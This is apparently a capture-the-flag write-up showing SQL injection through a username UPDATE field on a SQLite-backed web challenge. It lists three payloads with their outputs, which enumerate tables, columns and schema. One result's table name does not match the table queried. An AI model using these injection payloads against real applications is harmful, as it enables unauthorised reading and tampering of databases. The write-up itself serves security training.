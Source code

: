 ![index](./images/bcactf/user/index.png)

* As we can see, we can change the username. According to the hints, this uses an UPDATE statement, which makes it susceptible to injection attacks.

* The application is probably using this query.

```sql
UPDATE users SET name="<input>" WHERE id=1;
```

* So we tried to exploit and display the results in the name field.

* Here are some payloads and their output

```
1. Payload: ",name=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')--
   Result: users,roles_eab48ad667ed5a02

2. Payload: ",name=(SELECT group_concat(name) FROM pragma_table_info('users'))--
   Result: id,name

Similarly there are two columns in the roles_eab48ad667ed5a02 table id,admin

3. Payload: ", name=(SELECT sql FROM sqlite_master WHERE tbl_name='roles_eab48ad667ed5a02') WHERE id=1  --
   Result:  CREATE TABLE roles_44f63838742cf87d (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE)

Similarly
   CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
```

